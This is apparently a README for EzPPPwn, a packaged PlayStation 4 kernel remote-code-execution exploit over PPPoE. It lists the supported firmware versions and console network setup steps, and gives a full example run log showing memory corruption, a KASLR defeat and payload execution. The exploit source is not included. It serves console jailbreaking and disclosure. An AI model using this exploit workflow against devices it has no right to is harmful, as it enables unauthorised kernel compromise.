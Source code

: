 # EzPPPwn v1.10 by DjPopol 
# PlayStation 4 PPPoE RCE

PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for CVE-2006-4304 that was reported responsibly to PlayStation.

Supported versions are:
    - FW 7.00 / 7.01 / 7.02 / 7.50 / 7.55 
    - FW 8.00 / 8.01 / 8.03
    - FW 8.50 / 8.52
    - FW 9.00
    - FW 9.03 / 9.04
    - FW 9.50 / 9.51 / 9.60
    - FW 10.00 / 10.01
    - FW 10.50 / 10.70 / 10.71
    - FW 11.00
    more can be added (PRs are welcome)

# Requirements

    - A computer with an Ethernet port  USB adapter also works.
    - Ethernet cable.
    - Npcap.

# Usage
On your PS4:
- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`
- Click `Test Internet Connection` to communicate with your computer

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. If the `pppwn.exe` is stuck waiting for a request/response, cancel it and run it again on your computer, and then click on `Test Internet Connection` on your PS4.

If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4.

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
